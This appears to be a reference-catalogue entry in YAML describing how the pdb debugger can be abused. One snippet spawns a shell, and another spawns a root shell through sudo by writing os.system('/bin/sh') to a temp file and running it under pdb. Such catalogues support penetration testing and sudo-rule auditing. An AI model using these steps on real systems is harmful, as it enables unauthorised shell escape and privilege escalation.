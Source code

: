 ```yaml
---
description: This allows to execute [`python`](../python/index.html) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        pdb $TF
        cont
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        sudo pdb $TF
        cont
---
```

